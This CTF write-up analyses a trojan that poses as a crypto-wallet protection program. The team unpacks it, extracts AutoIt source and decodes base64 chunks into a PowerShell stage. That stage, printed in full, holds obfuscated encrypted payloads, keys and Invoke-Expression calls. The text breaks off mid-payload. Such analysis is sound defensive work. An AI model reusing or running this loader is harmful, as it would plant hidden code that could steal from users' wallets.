



# Huntress CTF 2025 - 🐞 Sandy

- **Team:** `r4ph3cks`
- **Date:** `03/10/2025`

## Challenge Information

- **Category:** `🐞 Malware`

- **Description:**
> My friend Sandy is really into cryptocurrencies! She's been trying to get me into it too, so she showed me a lot of Chrome extensions I could add to manage my wallets. Once I got everything sent up, she gave me this cool program!
>
>She says it adds better protection so my wallets can't get messed with by hackers.
>
>Sandy wouldn't lie to me, would she...? Sandy is the best!

- **Author:** [`John Hammond`](https://www.youtube.com/@_JohnHammond)

- **Given:** [`SANDY.zip`](https://github.com/r4ph3cks/huntress-ctf-2025/blob/main/sandy/assets/SANDY.zip)

> [!IMPORTANT]
> The ZIP archive password is `infected`

## Analysis and Solution

We extracted the ZIP file and found an .exe file named **SANDY.exe**. We analyzed the file type using the following command:

```bash
file SANDY.exe
```

Which gave us the following output:

```bash
SANDY.exe: PE32 executable for MS Windows 4.00 (GUI), Intel i386, UPX compressed, 3 sections
```

This output tells us that the file is a **Portable Executable (PE)** for 32-bit Windows, targeting the **Graphical User Interface (GUI)** subsystem. It is built for 32-bit x86 (Intel i386). It has been packed/obfuscated with **UPX (the Ultimate Packer for eXecutables)** and contains relatively few sections.

We started by unpacking the executable:

```bash
upx -d SANDY.exe -o uncompressed_sandy.exe
```

With the ```uncompressed_sandy.exe``` we applied the common techinques like using the ```strings```, ```hexdump```, etc... 

Unfortunately, we did not find anything unusual, so we moved on to a known Windows program named [PEStudio](https://pestudio.org/), which is a static analysis tool for Windows executables. Without running the program, it can detect malware, suspicious indicators, and PE file structures instantly. Opening the uncompressed executable in PEStudio, we immediately saw that it was very likely a **trojan**.



> PEStudio has a nice feature that hashes the file and checks it against VirusTotal.

We analyzed every section, header, and library being imported and found suspicious behavior. Taking a deeper look, we checked the **signature**.



A Portable Executable, when compiled with certain tools, has a signature corresponding to that environment. For example, code written in C# and compiled with Microsoft.NET will have a .NET signature. The same applies here: this executable was compiled with **AutoIt**.

That means we could decompile it. Using a open source tool named [AutoIT Extractor](https://github.com/digitalsleuth/autoit-extractor) we retrieved the source code:



We saved the script to a file. Analyzing it, we found a variable named ```Global $base64chunks[]``` followed by a massive number of base64 chunks (LOL), like the following:

```autoit
"JABlAG4AYwBvAGQAZQBkAFMAYwByAGkAcAB0ACAAPQAgACIASgBBAEIAaQBBAEcARQBBAGMAdwBCAGwAQQBEAFkAQQBOAEEAQgBqAEEARwA4AEEAWgBBAEIAbABBAEcAUQBBAEkAQQBBADkAQQBDAEEAQQBJAGcAQgBoAEEARQBrAEEAVABBAEIANABBAEcAdwBBAFMA" & _
"dwBBAHgAQQBGAEEAQQBkAHcAQgBZAEEARgBnAEEAUwBBAEIAVwBBAEUANABBAE0AQQBCAHYAQQBHADgAQQBVAGcAQQA1AEEARQBZAEEATwBRAEIAawBBAEUAbwBBAE4AZwBCAG0AQQBFAHcAQQBiAEEAQQAxAEEARQBzAEEAYQB3AEIAcgBBAEYAWQBBAFcAUQBCADEA" & _
"QQBIAFEAQQBTAHcAQgBZAEEARwBrAEEAYwB3AEIAcgBBAEMAOABBAGEAZwBBADEAQQBFAEkAQQBiAEEAQgA2AEEASABjAEEAZQBRAEIAMQBBAEYAbwBBAGMAdwBCAEUAQQBFADQAQQBkAEEAQgAzAEEASABjAEEAVABRAEEANQBBAEcAbwBBAFYAdwBCAFYAQQBGAGsA" & _
```

Using [CyberChef](https://cyberchef.io/) wasn’t practical (obviously), so we placed these huge base64 strings into a text file and wrote a simple Python script to append each base64 chunk, removing the ```"```, ```&``` and ```_``` characters:

```python
import base64

INPUT_FILE = "base64chunks.txt"
OUTPUT_FILE = "base64decodedAndExtracted"

def extract(data):
    return data.replace('"', '').replace('&', '').replace('_', '').replace('\n', '')


if __name__ == "__main__":
    with open(INPUT_FILE, 'r') as file:
        data = file.read().rstrip()

    with open(OUTPUT_FILE, 'w') as output_file:
        output_file.write(base64.b64decode(extract(data)).decode())
```

Running it, we got a **PowerShell** script:

```powershell
$encodedScript = "JABiAGEAcwBlADYANABjAG8AZABlAGQAIAA9ACAAIgBhAEkATAB4AGwASwAxAFAAdwBYAFgASABWAE4AMABvAG8AUgA5AEYAOQBkAEoANgBmAEwAbAA1AEsAawBrAFYAWQB1AHQASwBYAGkAcwBrAC8AagA1AEIAbAB6AHcAeQB1AFoAcwBEAE4AdAB3AHcATQA5AGoAVwBVAFkAawBVAHAASQB4AHoAMwBaAFIAYwB3AE8AdwBHAEMAawByAEUAOABlAEUAbwBnAHgAVAAzAFgASwBHAHEAaQBrAGEAegBiAGcARQBhAHEAVQB5AGkAMABqAE8ATAA5AEQAMgBOAFIAZgAwAG4AWgBhADYASQB6AEUAWgBaAGYAQwBGACsAWQBkAEkAQwBzAFkAaABJAFIANQBPAGQAdQBnAHQARgBkAGIAKwBRAEkATwBKAEsAaABXAHcAagBGAEEAcgBoAEIANgBiAFkAVwA0AEEAVwArADMATQBOAFIAUQA2ADEAeQB0ADgAbQBrAGwAdQA2AEQAVQBiADcASgBlAEMANQBoAGgAZABEAGwAMwB0ADMARABtAHcAKwAwAEwAaABEADUAUwA2AGgAKwA4AHYAZgA2ADYAYQAxAHgASwBGAGwAOABnAGwAdwByAHgAOAAvAEQAZAA4AG4ANABHAGMAVwBkAG0AYgBnAE4AYQBJAC8AcABLAGUAcwB1AGYANABiADAAMgBMAHkAWgBzAHAASQB2ADEAdQBvAEEAeAB0AHUAUAAzAEQAWgB1AHMAZQBCAHMAZAB1AEEANgBUAGIAUQBBAEYAUwBBAHQAVgBkAEMASwBTAG8ATwBzADIASQBjADMAVQBEAEQAawBhAE4ANABnAHEAbgBKAEgAVwBsAFEAVwA0AC8AWQAwAGMAVQAyAGQARwA3AE4ARQBRAGEAdQBNAEQASwBWAHcALwBSAHYAUABTADkATgBGAE4AdgBXAEcAUQA3AHgAbwAzAHAAaABsAGcAdwBRAHkAYwBnAEkAKwBlADEAZABsAG4AdQAzAGsANQBTAHoAUwBlAFgAaAAxAFgASABwAEsAVgArAHEANAByAFAAdABFAGYAVwArAFMAdgBFAHkATgBjAEEAVgBkAEIATABiAHYASABQADYAZgB2AG8AcwBaAHUARQBuAGQASQA0AHoAMwBWAFAAVgBrAFIAcwAvAGYAdgBVAG4AWQBCAE0AbgBDADIAZQBWAEsAdwBWADQASABYAHUANgA5AHcAKwBnAHcATAAwAHIAbABPAFcAUABrADEANgBxAG8AKwA4AE0ANgBBAGEAWAAzAEcAZABjAEUATwBlAEoANABLAGYAbQBkAGgAawBDAGQATgB0AEsAdABZAFEAbwAyAE8AcwBlAHkAdwBwADcANwBHAFUATgBRAEsASQB2AFkANwAwADUARAA5AEgAdQBJAGoAZABuAE8ALwAxAFQASABIAEYAdAA0AGcAdwAyAEwAWgBBAFcAcgBSAE0AbwBrADcATQB5ADIAdQBPAE0AZQA2AHYAdwBSAHgAegBpADAANQByAHkARgBSAE8AOQBaADIAeABtADUAMwAyAFoAYwBjAGMAcgBLAG0AcABWAFEAQQB2AEcAMAArAHYASwBHADgAZABXAE4AdQBUADEAbwBDAGUANQBQADcAWgBxAEQAMQB3ADEARgA0AGoAZABDAFIAawBmAE8AQwBVAEcAOAB3AEcASgBNADgAMwArAFYAbQBBAGQAbwBxAG4AZABMAFIATQBaAGgAaABFAGEAbQBtADIAOABEAGIALwBCAFMAWAB5AGMAYQBTAHEAcwAyADUAMAB5AGMAQQBLAGIAdwBUAGEAdgBJAGEARQBDAFUAdgBiADMARAB0AHIAUAAyAEQAcAB1AGsANABlAEkAVwBOAEcAbQAyAHEAVQBSAGEAUQBjAGIAUQBhAHYASQBiAEwANgBCAFkANwBuAFkANABSAFEAbwByAE8AVQBtAHkAOQBiAEIAeQBXAGYAUQBhAHgAKwBMAGoAUQBiAFQAUgBSAHQASABFAEkAVgBDAFoAVQBCAHQAQwBIADYAVwArAHQAcwBHAEsAbABmAG4ANwBXACsAaQBUAHAAdgBUAFgAVAAyACsANgBUAEcAVAB2AGcAQgA2AEoAaQBUAEQAYQB1AFEATABYAGQAQwA2ADQANQBBAG4ATgBHAEkASwBWAFQAWABGAHMAdgBkAHcAcAB5AE4AMwBsAEcARwBoAHcAVwB1AGQAVwBwAEwATwB3AHUAZAArAHYAYQBDAE4AWAA3AGIAVwBtAFUAcAB0AEUAVABzAFgAWAAxAGwAdABKAHQAbQBsAHIAQwBBAFoAMABlAFgASgByAE8AUwArAEMAbABUAFMAYQB5AGkARwA1AG4ATAA1AHkAMABpAHQAVwAxAGMAbwBMAE4AdABoAEcAagBMAGwAbQBhAGUAYwBpAFEAOABRAEsAUwBLAEoAVAArAEIARQBUAFYAKwAxADEASwBJAEQAUwB6AHUAdwA1AFMAdQBlAFEAaAB1AHUATQByAFkAVgBVADIARQBTADMAeQBMAHEAWABZAEoANwBvAHIASQBDAGIAZABnAHAANgB6AC8AWQBaADMAUQBsAFgAYwBGAHEAYwAzAGIANwBhAGsAbwB2AGYASwA4AHcATAA4AG0AUABOAGQAUQBvAC8AVgAwAFAANQBaADgAMABDAHQASAArAGEATQBHAFgAeABVAHgAbwBGAHkANgA0ADUAdgBjAFQAagA4AEgARwA5AEQAWQB3ACsAUQBuAFIARQBLAEQAdAArAFUAeABMADgASwBHAGUAcgBnAHoAYgBsAHEAQwBGADMAVwA2AGYAdwBmAEEAOABuAGoASwB5AFAAegBZAHgAZwBqAHQAMABjAHkAbwB2AFkAaAB5AG0AMgBqAFkAMABjAFoAbAAwAGsATgBuAGwAVwAwAHMAYQBPAHcAcgBSAGoAdAB3ADkAZABXAGcATwBvAGkAdQA3AFoAMwBNADgAaQA4ADgAUgBSAGkAaQBMAFQAaQBlAFQAaAAvAGIAWgB2AFYAQgBBADMAQQBhADAAQQBVADUAMwBMAG0AMwBTADEAdABvAHcAYgBiADMAcgA0AGcARQBBAHEAaABoAFUAVgB0AEMAbAB6ADYAVgAvAE0ATQAyADMAZgBjAGsAOQBhAG0ASABoAEUAagB4AFcAdgBXAEUATgB0AHIAeAArAC8AUgAzAGoAdQBIAEsAbwBoAFUAWAB2AG8ATQBTAHoAZQBjAEoAVQBVAFMAZQBSAHkAdABiAEUAVQBRAHIANwBnAEQASQB4AFoAawAvAGUASgA1AEgAdwB4AHcAcAA5AEwANgBRADUAQwBsADQAYgBzAEYAMwA1AGcANgBYAGIANAB3ADEATgBjAEEAMABMAHoAdQBjAFcAeABqADkAKwBRAFEAdgBSAGYASQB5ADEANwBhAHcAcAAwAEUANwBUAGcAbwBmAEYAMgBWAHIARgBwAFQAbgBSAFEAQgBPAHYAbABtAEcAaABpAGMAVABDACsANwB5AEkAdABFAEgAdQB5AHEAVAAzAHAAawA0AFYAaQBoADEAdwA1AGsAdwA0AE0AWABRAHIAbwBDAGYATQBIADIAcABHADQAMQBlAC8AbQBQAEUAdgBQADIAYgBxAHMAdgA5AG0AUQBkADAAZQBOAFkAUAA0AGsARgBBAGwANQA5ACsASABLAE8ASABWAFEAagBYADgARwBYAE0ATQAvAGsAVABSAGEAbQBTADUAeQBaAFUATABnAEcAcgBvAEoASgBRAFIASQB5AGIAUwBWAEwAbABEAEwASABJAGkARgA4AGUAcABvACsAYgBJAFUAVgB0AEsAMwAxAG0AWgA5AEgAWQBKAG8AdQBaAHQAMAByADMAagBMAFIARwBqAEgAOQAyADUAMwBOAGoAcQBSAGcAQwA4ADIAcABrAHQARABJAE8ASwBMAGgAYwAxAGQAQwBiAGUAaABLAHEANgBtAEoAbQAzAGsAZABUAEgAQQBsAEkASgBzAGYAcwA0AGQASQBlAEMAdgBVAFkAQQA1AHcATQB3AHAAYwBYAEwAZgB6AG4AZABPADEAbQBxAEcAdQBBADIAYwBOAG4AOAArAHcATwBJAFQASgBuAFkATQBBAGUAaQBSADgAOABYAFEAeQBaAHQAMABOAEgAeQB4AHMAcwAvAHoAUQBrAHgASABBAFcAZAB0AE8ASQBxADEATgBnAFEAVAAyAHUAaQBOAGgAUQBlAFgAeAA5AFgATQBGADIAeABaADgAegBGAHcAeQBJADkAUwBEAEIAMAA2ADgASgBVAG4AbgBKAHcATwB1AHMAKwB3AC8AKwBGAFkATgByAFAATgBCAEUAKwBHAEEAeQBsAHcAUAA0AFIAVgByAEwAMQB4AFEASgArAHUAMAB0AG0AUwBTAE8AaABiAEwATQA4AEEATgAzAFYARQAxAG0AYgB0AE8AQQA0AHIAUQB2AGwAdgByAGsAcABiAG4AdwBqAGUAbgA1AHoAegBuAG0AUABmAEkAVwBoAGIAdQBWAEIAZABvAGcATgB5AEIAaQBPAEgAaABKAEkAYQBTAGEAYgAxAEQAeAA0AHIAUwA4AGYAVQBFAHIAMQA3AGsAeABtAFMASQBBAE0ARABFAHIAbQBiACsAYwBHAE0AUABDAGUAQgBqAEUAeAAwAGwAOQBjAFMASwBrAFkAUAA0AGUAVABjAFAAZQBZAG8AWQBDADMAcAA4AFgANABxAHcAVQBlAHMATwA3ADYAMwBqAGIANwB6AG4AMAA9AEkAQQBsAFAAOQBsAHEAUwA4AEEAVgBlAHMAYQBmAHoAcgBCAHMAUABhAFcAMwA4AFIATAAwAG8AcQBjAHcAbAAiAAoAJABiAGEAcwBlADYANABFAG4AYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4AIAA9ACAAJABiAGEAcwBlADYANABjAG8AZABlAGQALgBTAHUAYgBzAHQAcgBpAG4AZwAoADMAMgAsACAAJABiAGEAcwBlADYANABjAG8AZABlAGQALgBMAGUAbgBnAHQAaAAgAC0AIAA2ADQAKQAKACQAawBlAHkAMQAgAD0AIAAiAGUAZQBKAHMAWABEADMAVgBUADIAYQA3AGkARgBNAEYAIgAKACQAawBlAHkAMgAgAD0AIAAiADQAUQBLADAAWgBtADMAUQByAGkANgAxAEIAZwBGADgAIgAKACQAawBlAHkAMwAgAD0AIAAiAEEARwBBAHUAUwBIAHcAbAA3AHAAWgBvADEAdQBRAEwAIgAKACQAZgB1AGwAbABLAGUAeQAgAD0AIAAkAGsAZQB5ADEAIAArACAAJABrAGUAeQAyACAAKwAgACQAawBlAHkAMwAKACQAcwBhAGwAdAAgAD0AIAAiAG4AQgBZAGkAVgAyAGIAOAB3AFYAcgBkAHEAcwBDAFkAIgAKACQAawBlAHkARABlAHIAaQB2AGEAdABpAG8AbgAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBSAGYAYwAyADgAOQA4AEQAZQByAGkAdgBlAEIAeQB0AGUAcwBdADoAOgBuAGUAdwAoACQAZgB1AGwAbABLAGUAeQAsACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBhAGwAdAApACwAIAAxADAAMAAwACkACgAkAGsAZQB5AEIAeQB0AGUAcwAgAD0AIAAkAGsAZQB5AEQAZQByAGkAdgBhAHQAaQBvAG4ALgBHAGUAdABCAHkAdABlAHMAKAAzADIAKQAKACQAaQB2ACAAPQAgACIAcQBHAEMAdgBlADEATgBZAGsAbABKAEgANgBCAEkAVgAiAAoAJABpAHYAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGkAdgApAAoAaQBmACAAKAAkAGkAdgBCAHkAdABlAHMALgBMAGUAbgBnAHQAaAAgAC0AbAB0ACAAMQA2ACkAIAB7ACAAJABpAHYAQgB5AHQAZQBzACAAPQAgACQAaQB2AEIAeQB0AGUAcwAgACsAIABAACgAMAApACAAKgAgACgAMQA2ACAALQAgACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAIAB9ACAAZQBsAHMAZQBpAGYAIAAoACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACAALQBnAHQAIAAxADYAKQAgAHsAIAAkAGkAdgBCAHkAdABlAHMAIAA9ACAAJABpAHYAQgB5AHQAZQBzAFsAMAAuAC4AMQA1AF0AIAB9AAoAJABhAGUAcwAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBBAGUAcwBdADoAOgBDAHIAZQBhAHQAZQAoACkACgAkAGEAZQBzAC4ASwBlAHkAIAA9ACAAJABrAGUAeQBCAHkAdABlAHMACgAkAGEAZQBzAC4ASQBWACAAPQAgACQAaQB2AEIAeQB0AGUAcwAKACQAZABlAGMAcgB5AHAAdABvAHIAIAA9ACAAJABhAGUAcwAuAEMAcgBlAGEAdABlAEQAZQBjAHIAeQBwAHQAbwByACgAKQAKACQAZQBuAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGIAYQBzAGUANgA0AEUAbgBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgApAAoAJABkAGUAYwByAHkAcAB0AGUAZABCAHkAdABlAHMAIAA9ACAAJABkAGUAYwByAHkAcAB0AG8AcgAuAFQAcgBhAG4AcwBmAG8AcgBtAEYAaQBuAGEAbABCAGwAbwBjAGsAKAAkAGUAbgBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAsACAAMAAsACAAJABlAG4AYwByAHkAcAB0AGUAZABCAHkAdABlAHMALgBMAGUAbgBnAHQAaAApAAoAJABtAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQAoACwAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwApAAoAJABnAHoAaQBwAFMAdAByAGUAYQBtACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAWgBpAHAAUwB0AHIAZQBhAG0AKAAkAG0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACwAIABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApAAoAJABzAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAoACQAZwB6AGkAcABTAHQAcgBlAGEAbQApAAoAJABkAGUAYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4AIAA9ACAAJABzAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAuAFIAZQBhAGQAVABvAEUAbgBkACgAKQAKAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACQAZABlAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuAA=="
$decodedScript = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedScript))
Invoke-Expression $decodedScript
$encodedScript = "JABiAGEAcwBlADYANABjAG8AZABlAGQAIAA9ACAAIgByADgAZwBVAFUASAB4AHoAQQBXAFkAbgBnAHEAZAB0AFEAYQA2AFYAZABHADMAcwBZAHgAUAA4AHUAWABQAEYAcgBnAFQAMgAxAEQAcABVAGgALwBqAFMAcQBFAHIASQBUAFQAOABiAGoAcgBoAFIAdwBSAEsANgA2AGoAbQA0AEYAZwBUAFUANAB6AHMAcAB5AE4ASQBhAHYAbAB5AGoATgBVAHoAaABoAGkAMQBTAHIAaABJAGIASwBIAFIAQQBuAHoATQBMAFgAdABnAFAAVABxAHMAaABEAE0AcQBMAHoAVgBQAEwAMgAvADIAagBkAFIARQA5AFIAMABhAEwAMwBMAHQARwB3AGQASAB6AFkAWQBjAEgAWgArAHcATAAxADkANQBvAGIALwBYADQAdgArAHAAZAA5ADUATgB3AHEAZABqAGcAWgA1AEwANABLAHoAegBUAG4AMwBsADQAcwBEAEcARAByAEwATwB6AHAAUABJAGUATABnAFQAegAwAFcAcQBhAEkAYQBVAHcAUgBLAG4AWQB3ADIAVAA5AEsATwBsAFYAYQB0ADYAbAB0AEoATwBtAFEAagBuAEsARgB0AEMAVABXADEAegBZAEUAZgBHAGcAMwBTAG0ASgBrACsANQBHAGUARABKAGMARABMADAAZgB6AHEAKwBQADMAOQBOAEcAbgBHAGUAegB0ADUAdQB3AEEAYQB4AFYAeQBGAHIAYwBYADkAeQBSAEgAbAB4ADcAcABJAGgARwBqADkAMQBaAGwAKwB2ADEASQBUADIASgBaADcAbABYADEAUgBGADQAeQBOAGwAQgBmACsANQBkAHMANQBDAFUAWQBGAHYAVgBaAHIAZQBSAGUARwB0AEMARABYAGgATgBWAEIAaQAwADEAMQBkAGYAVABOAHQAUQB0AFgAYgBrAFYASwBVAGIAYwB5AG0AMQB1AEQAZAA5AGsAdQA2AHAAWQBiAHQAQwBrAHIAcQBwAFAAQgBHADgAdQBpACsAeQBiAHgAYQBVAGIATwB6AGUAYQAxAHAANQBWAHUAUAAvAGQAOQBKAGkAMwBEAE4AZwB4AE4AVwBNAHoAcABjAGMAdgBwADUATgBEAEsAKwBCAG8AQQBUACsAdQBnAEYAUwBlAHMASABQAHoAYwA3AHkAcgAzAHIAcgBVAGEAdABnAE0AVAB2AFcAUQAyAFoAeQBuAFEASQB6AGEARwBNACsARwBGAFEAeQBZAHkASQBhAGQAcQA3AHQANwBXAGMAMgA5AEUASgBoAE8AcABLADIATQBNAEkAZwB0AHcATgBJAEoARwAvAGcARgBYADcAWQBCADQAdABmAGIAUgA0AHAATwBEAGgAOAB2AFUAaABYAFgAUgBnAEwAZAB2AGcAdgBIAHQAVwB6AEIARAA4AGwAWABaAG0ANABaAGEAUQB5AHMAagBJADcAdAAyADAATgBVAE8AZQBiAFEAWgBzAEwARQBLADEAMwBTADQANwBVAEQASQB0AFYAaQB2AGwAagAvAHkATABvADQATQBmAGMAYgBQAFUAdAAvAFUAdgBwAGIAawAwADcAMQB4AFUATQBEAHkAegBSAEkAMQAvAGsAZABZAEIAYgAwAEUARABnAGYAQwB4AEIAMABZADkAegBhAG4AbwB0AFQAZABsAFMARAB3AFYAdwBwAHUAbgBBAHUAYQByAEwAbABIAEgAVQBkAG0AawBhAE8AbQBlAFcARwBLAEEAbQB5AFIAegBnADUAaABxAE8AVgBTAHEAVABDAFgAZABTADQAQgBaAEsASwBaAHYAbQA3AHMAagBrADYAdgBiAGkAeQBLAHEAQwA1AFkAUABxAHMASwA3AE4AVgBsAFcAMgBPAEoAdwBkAGgAOABhACsAcgBxAHEAZgBsADgAbABvAGoAOABkAHEAKwBYAG0AWABPAGgAMwBiADcASgBnAEwAYgAzAEkAVQB0AFIAbABMAHUAKwBhAEkAegBrAEMARABzAG0ANQB0AFAARgBIAHkATAAzAFIAZQBHADYAQwBlADAAQgBJAEYAbgBaAHUARgArAEsAbQBJADQAcAA1ADcAdABhAEIANABzAEMAMQBwADQALwA2ADMAMABsAGUAaABPAHUANQBuAE4ANwBhAEsAUwA2AEwAVABLAEgASwA4AEcAMgBNAHoAZgBWAEUAQwBWAEYAZQBhAGsAaABDAEsARgAvAFIAKwBBAEsARQBPAHAAdgBUAFAAYwBJAFQAVAB0ADUAKwBFAHEASQBZADMAWAB0AHkAUgBqAFYAeQBZAGgAQQBrAGwAdABkADMAWgB2AFIANABlAHkAYgBEAFoAUgBFAGcANABrAE4ASgBNAC8AUQBFAEQAagByAHEAMgBYAEoALwBtAFMAOQB4AEsAZAAyADIASAA0ADMARgBsAG8AUQBLAHUAdgBCAGwAYQA5ADIASgBBAC8AOABOAHAAVgBpAEUAQwBpACsAcABJAE8AbQBBADIAWABjAHQAcQBYADAAaQBwAHMAVQBrAGYASABnAGwASABqAG8AbQA5AGMAcwBMAFMALwBlAEsAMgBKAFgAVQAyAG8AOQBYAFUAOQAyAC8AZABCAFQAQgBTAGsAZgBKAEQASQAyAEQAUQBIAHgAKwBrAHUAUABMAGIAVQBPAEEAeQBXAEcANAB3AHYAMAB3AC8AKwB4AGUAcgBvAFUAUgBhADIANABMADkAbgA1AG0AcQBNAGgARgA0ADkAdABSAEgAMgB2AC8AdABwAG8ATQBsAGIAeQBlAG0AOABRAFAAYQBEAHgAVABVAE0AbgBjAEYAcwBLAHEAeQByAEYAcgBiAFYAdABqAFgAcgB0AGwAdAAvAGsAVgBtADcAbwAzAHUAaQBNADIATgA4AEkAcwBOAFgAcwBQAG0AQQBnADEAZwBiAFkAcwBIAHUARgBhAHoAawB1ADAATwBzAGwAZQBZAHUARABsADUAaQAwAFcAKwB2ADEAZAB5ADMATgBRAHYAcQBBADYAMABwADcAdwAzAEMAeAA2AEQAeQBzADkANwA3AHgAQQBPAGkAQQBlAGQAaABXAEIAVQAyAHEAMABLADcAKwBzAFUAQwBIAGUAZwBtAEUAMQBJAEgAeABtAHcAWQA5ADkAbwBKAFgAVABJAFgAKwBBAHcARABOAGwAUABnADUAbgBmADIAWgBhADQAVAByAGcAZgB1AGcASAAvAG8ARgBFADIASAA3AEsANQBHAEIAUwBhAEUAegBoAFYARAB0AEMAOABMADYANgAyAFkAOQBlAEsARgB2AHQAKwBHAHcAQwBVAGwANgAwACsALwBlADQAQgA3AG4AVQBLAHYAaAAwAEMARwB6AHEAbQBFAHIAMAB3AG8AYgBXAGoAdgA4AEgAWgBKAEMAMQBHAGkAYQBhAGUAKwBQAFQAawB6AEsAbgBYAHUANAA0AGQANQBoAE4AOABNAGsAdAB0ADcATABpAEcAeQBmAE8AYwBZAGoAagAyAHkAawBOADcAUQAzAHEAVgBkADEAaAAxAEsANwA0ADYAbgAzAFMASwBUAHMAKwArADQAMwBEAEoARABHAE0ANgBmAGkAcgBJAHIAbgB1AEIAdgBpAEQAZQA1AGUAUABXAG8AdgBPAFQANQByAFAAMgBTAEgATgB2AFoAZQBEAFMAcQBnAHcAdQBRAHgAMQBzADcAagBiAHkASQAyADEAOAAyAG8AOABxAGQAUgBXAHEATQBBAGoAOABWAFMATgBDAHkAZABLAHMARQAzAGkAcgBBAEQAbwA2AEEANgBPAFAAMQBsAHIAawBkAHAAawBYAHQAKwBTAGgAYwBTAG4AaABqAC8ANgBIAHQA